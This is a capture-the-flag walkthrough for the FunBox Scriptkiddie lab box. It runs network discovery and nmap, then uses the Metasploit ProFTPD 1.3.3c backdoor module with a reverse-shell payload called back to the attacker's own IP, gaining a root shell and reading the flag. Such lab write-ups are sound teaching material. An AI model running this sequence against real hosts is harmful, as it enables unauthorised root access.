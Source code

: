 # **FunBox_Scriptkiddie_Walkthrough

This box was created by **0815R2d2

We start by running a netdiscover scan to get the IP address:

```sudo netdiscover -r <ip_address_range>```

<img src="netdiscover.png">

Then we run an nmap scan on 10.0.2.25: 

```nmap -A -v <ip_address>```

<img src="nmap.png">

Now, we see a lot of open ports here. My initial reaction was to attack the webpage, so I ran dirb and discovered the webpage was using wordpress. This prompted me run wpscan, but everything was updated and no vulnerabilities were found. I started poking around looking for known vulnerabilities on the other open ports, and I found that there was actually a metasploit module targeting the ftp service.

<img src="nmap_ftp.png">

```
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
```

<img src="metsploit_module.png">

For this module, you need to set the payload, so we use the command ```set payload cmd/unix/reverse``` and we set the options.

```
show options
set rhosts <ip_address_of_target>
set lhost <your_ip_address>
```

<img src="metaploit_module_ready">

Now we simply type ```exploit``` and **BOOM** we have a reverse shell.

<img src="reverse_shell.png">

When I get a reverse shell, I always start with ```whoami``` just see where we're at, and in this case, we're already root!

<img src="whoami.png">

Now, it's just a simple case of poking around the file system to find the flag, and in this case it's in the root directory.

```
ls -la
cd root
ls
cat root.txt
```

<img src="root_flag.png">

And that, folks, is why you always keep your services up to date.
